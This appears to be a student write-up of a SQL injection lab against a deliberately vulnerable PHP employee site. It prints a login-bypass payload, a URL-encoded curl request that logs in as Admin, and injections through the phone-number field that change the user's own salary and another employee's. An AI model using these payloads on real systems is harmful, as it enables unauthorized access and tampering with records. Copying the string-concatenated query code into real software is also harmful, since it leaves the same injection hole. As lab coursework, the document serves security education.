 # Task 1

As we want to have information about the credentials of employee Alice, we used a sql query to select the information from the credential table using 'Alice' as the name:

![](task1.png)

# Task 2.1

After reading the sql code for the login, we realized that it was possible to end the query earlier, after choosing the 'name', by simply closing out the single quotes, ending the query with ';' and commenting the rest.
Using this, we logged in as Admin:
```
Admin';#
```

# Task 2.2

Similar to the previous task, we logged in as Admin, but with the added difficulty of using curl, which made it so a few special characters such as the single quotes and the ';' had to be represented with their ASCII code in HEX, leaving us with the following expression:
```
curl 'www.seed-server.com/unsafe_home.php?username=Admin%27%3B%23&Password='
```

# Task 2.3

By examining the php code, we noticed the use of the function mysqli::query(), which made it so only one sql query could be executed.
Since updating the database would require the use of another query, it isn't something that could be done.

# Task 3.1

We logged in as Alice, using the same method as before, and, after looking at the code, we realized that the string used in the php which was comprised of a sql query could be altered in the PhoneNumber field, by changing its value and adding an ending which would allow us to alter the salary.
```php
$sql = "UPDATE credential SET
nickname=’$input_nickname’,
email=’$input_email’,
address=’$input_address’,
Password=’$hashed_pwd’,
PhoneNumber=’$input_phonenumber’
WHERE ID=$id;";
$conn->query($sql);
```

To do that, we closed the single quote after the PhoneNumber value from input, allowing us to add an extra argument that would modify the salary column to the value we chose, purposefully not adding a single quote at the end as there was already one in the original string at the end. Thus, obtaining the following query:

```php
$sql = "UPDATE credential SET
nickname=’$input_nickname’,
email=’$input_email’,
address=’$input_address’,
Password=’$hashed_pwd’,
PhoneNumber=’0', salary='100000000’
WHERE ID=$id;";
$conn->query($sql);
```

# Task 3.2

By altering the same string as in the previous task, we were able to change someone else's salary, 'Boby', by adding to the same method and creating our own 'where' clause to not use the 'id' but the name that was given by us, needing only to close the query with a ';' and commenting the rest. Thus, we changed the original query to the following:

```php
$sql = "UPDATE credential SET
nickname=’$input_nickname’,
email=’$input_email’,
address=’$input_address’,
Password=’$hashed_pwd’,
PhoneNumber=’0', salary='1' where name='Boby';#
WHERE ID=$id;";
$conn->query($sql);
```
